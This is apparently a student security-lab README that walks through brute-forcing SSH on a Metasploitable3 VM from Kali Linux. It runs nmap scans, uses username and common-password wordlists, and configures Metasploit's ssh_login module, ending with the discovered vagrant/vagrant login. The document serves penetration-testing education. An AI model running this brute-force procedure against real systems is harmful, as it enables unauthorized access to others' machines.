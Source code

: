 # Phase 1: Setup and Compromise the SSH Service

## Task 1.1: Compromise the SSH Service Using Metasploit

---

## 🎯 Objective
The goal of this task is to **gain unauthorized SSH access** to the victim machine (Metasploitable3) by performing a **brute-force attack** using **Metasploit**. We'll use the Metasploit module `auxiliary/scanner/ssh/ssh_login` to discover valid login credentials.

---

## 🖥️ Environment Setup

- **Attacker Machine**: Kali Linux 
- **Victim Machine**: Metasploitable3 
- **Target Service**: SSH
- **Target IP Address**: `192.168.56.102`
- **SSH Port**: 22 (default)

---

## 🔹 Step 1: Identify Target IP Address

On the victim machine (Metasploitable3), run the following command to get the IP address:
```bash
ifconfig
```


📸 Screenshot:

![Victim IP Address](https://github.com/jalsayid/Security-project/blob/dc3eb3a50f16f591446ceccfcf2ff306de2c5ca3/Phase1/screenshots/ip%20address%20of%20metasploitable%203%20(1).png)

---

## 🔹 Step 2: Test Connectivity

On the attacker machine (Kali Linux), we test if the victim machine is reachable over the network. This is done using the `ping` command to ensure that packets can be sent and received from the target IP.

```bash
ping 192.168.56.102
```


📸 Screenshot:

![test connectivity](https://github.com/jalsayid/Security-project/blob/983fe310f387ed02dc4abba13caba27e241a72da/Phase1/screenshots/testing%20VM%20connectivity%20from%20attacker%20(kali).png)

---

## 🔹 Step 3: Create Username and Password Files

Before running the brute-force attack, we need to prepare two text files:
- One containing possible usernames.
- One containing possible passwords.

These files will be used by Metasploit's `ssh_login` module.

Example content for `username` file:
```bash
msfadmin
admin
root
user
test
postgres
ubuntu
kali
vagrant
guest
oracle
administrator
ftp
support
webadmin
sysadmin
backup
mysql
pi
john
```

Example content for `password` file:
```bash
msfadmin
admin
123456
password
12345
123456789
12345678
1234
1234567
1234567890
admin123
root
toor
kali
guest
letmein
qwerty
abc123
111111
123123
vagrant
welcome
iloveyou
password1
123qwe
1q2w3e4r
000000
passw0rd
dragon
monkey
loveme
qwertyuiop
```


📸 Screenshot:

![test connectivity](https://github.com/jalsayid/Security-project/blob/fc2e81dd5e1a870890534e157783733ea46e9bea/Phase1/screenshots/files.png)

---

## 🔹 Step 4: Perform a Basic Nmap Scan

To check which ports are open on the victim machine, we start with a basic Nmap scan from the attacker machine (Kali Linux). This helps us discover services like SSH running on the target.

```bash
nmap 192.168.56.102
```

📸 Screenshot:

![nmap](https://github.com/jalsayid/Security-project/blob/83631ae4769ad8e04f964d0a4d6c37bc944ce80a/Phase1/screenshots/nmap.png)

---

## 🔹 Step 5: Perform a Detailed Nmap Scan with `-A`

After confirming that port 22 (SSH) is open using a basic scan, we run a detailed Nmap scan to gather more information about the services and operating system running on the victim machine.

This helps confirm the SSH version and identify the system fingerprint.

```bash
nmap -A 192.168.56.102
```

📸 Screenshot:

![nmap a](https://github.com/jalsayid/Security-project/blob/83631ae4769ad8e04f964d0a4d6c37bc944ce80a/Phase1/screenshots/nmap%20-a.png
)

## 🔹 Step 6: Start Metasploit and Load the SSH Login Module

Now that we’ve confirmed the SSH service is running on the victim, we start Metasploit on Kali Linux to launch the brute-force attack.

Start Metasploit:
```bash
sudo msfconsole
```

Search for the SSH login scanner module:
```bash
search ssh_login
```

From the list of matching modules, we will use the one for SSH login:
```bash
use 0
```

📸 Screenshot:

![search](https://github.com/jalsayid/Security-project/blob/5d4b10f49c23ea8938e5bdc0282f657a2d581f3e/Phase1/screenshots/start%20metasploit%20and%20search%20(1).png)

---

## 🔹 Step 7: Configure and Run the Exploit

Once the SSH login module is loaded in Metasploit, we configure the necessary options to launch the brute-force attack using our `username` and `password` files.

Set the required parameters:
```bash
set rhosts 192.168.56.102
set user_file Desktop/username
set pass_file Desktop/password
set verbose true
set stop_on_success true
```
And then we run the exploit:
```bash
exploit
```

📸 Screenshot:

![exploit](https://github.com/jalsayid/Security-project/blob/fb682b5fb6b259664e036a31aa080a29f03a578f/Phase1/screenshots/exploit2.png)

After running the exploit, Metasploit successfully finds a valid username and password combination that grants SSH access to the victim machine.

In our case, the following credentials were discovered:

username: vagrant
password: vagrant












